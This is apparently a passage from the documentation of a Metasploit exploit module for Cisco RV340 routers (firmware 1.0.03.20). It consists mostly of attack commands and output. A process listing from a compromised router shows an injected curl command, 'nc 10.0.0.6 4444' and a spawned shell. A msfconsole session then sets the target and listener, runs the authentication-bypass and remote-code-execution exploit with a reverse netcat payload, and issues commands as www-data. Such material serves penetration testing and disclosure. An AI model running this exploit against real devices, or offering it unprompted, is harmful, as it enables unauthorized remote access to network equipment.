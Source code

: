 ```
10632 root     12948 S    casa
10684 root      1884 S    lcavc
10750 root     14248 S    lcstat daemon
10851 root      2152 S    /usr/sbin/lldpd -I eth3*
10857 root     10124 S    /usr/sbin/lldpd -I eth3*
10873 root     80496 S    wfapp 50001 42 1 0 0 RV340-WB PSZ24161FA9
10986 root      6216 S    {vpnTimer} /usr/bin/perl -w /usr/sbin/vpnTimer
10987 root      6084 S    {vpnLed} /usr/bin/perl -w /usr/sbin/vpnLed
11055 root      3432 S    /usr/lib/ipsec/starter --daemon charon
11056 root      137m S    /usr/lib/ipsec/charon --use-syslog --debug-chd 2 --d
11058 root     16316 S    /usr/bin/python /usr/lib/python2.7/site-packages/pnp
12037 root      4624 S    notifyd -i 127.0.0.1
12055 root     16212 S    nginx: master process /usr/sbin/nginx
12065 www-data  7456 S    uwsgi -m --ini /etc/uwsgi/jsonrpc.ini
12066 www-data  7124 S    uwsgi -m --ini /etc/uwsgi/blockpage.ini
12067 www-data  7124 S    uwsgi -m --ini /etc/uwsgi/upload.ini
12111 www-data  7216 S    uwsgi -m --ini /etc/uwsgi/upload.ini
12112 www-data  7548 S    uwsgi -m --ini /etc/uwsgi/jsonrpc.ini
12113 www-data  7548 S    uwsgi -m --ini /etc/uwsgi/jsonrpc.ini
12114 www-data  7124 S    uwsgi -m --ini /etc/uwsgi/blockpage.ini
12115 www-data  7548 S    uwsgi -m --ini /etc/uwsgi/jsonrpc.ini
12116 www-data  7548 S    uwsgi -m --ini /etc/uwsgi/jsonrpc.ini
12444 root     24804 S    /usr/bin/snmpglue -n 1
12794 root      3224 S    /usr/sbin/crond -c /mnt/configcert/crontabs -l 5
14266 root      5128 S    {syslog-ng} supervising syslog-ng
14267 root      5480 S    /usr/sbin/syslog-ng -f /tmp/syslog-ng.conf
28966 www-data  3116 S    sh -c curl http://127.0.0.1/jsonrpc.cgi --cookie 'se
28967 www-data  3116 S    sh -c curl http://127.0.0.1/jsonrpc.cgi --cookie 'se
28969 www-data  3116 S    nc 10.0.0.6 4444
28970 www-data  3116 S    /bin/sh
30804 nobody    2676 S    avahi-daemon: running [router0B874A.local]
30855 www-data 16372 S    nginx: worker process
30856 www-data 16212 S    nginx: worker process
30857 www-data 16212 S    nginx: worker process
30858 www-data 16368 S    nginx: worker process
```

### Cisco RV340 using firmware version 1.0.03.20. Reverse shell with reverse netcat.

```
msf > use exploits/linux/http/cisco_rv_series_authbypass_and_rce
[*] Using configured payload cmd/unix/reverse_netcat
msf exploit(linux/http/cisco_rv_series_authbypass_and_rce) > set RHOST 10.0.0.8
RHOST => 10.0.0.8
msf exploit(linux/http/cisco_rv_series_authbypass_and_rce) > set LHOST 10.0.0.6
LHOST => 10.0.0.6
msf exploit(linux/http/cisco_rv_series_authbypass_and_rce) > run

[*] Started reverse TCP handler on 10.0.0.6:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. The device responded to exploitation with a 200 OK.
[*] Executing Unix Command for cmd/unix/reverse_netcat
[*] Command shell session 1 opened (10.0.0.6:4444 -> 10.0.0.8:34155 ) at 2022-01-29 18:46:01 -0800
[+] Exploit successfully executed.

uname -a
Linux router0B874A 4.1.8 #2 SMP Thu Sep 17 09:26:06 IST 2020 armv7l GNU/Linux
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
netstat -tlpn
netstat: showing only processes with your user ID
Active Internet connections (only servers)
```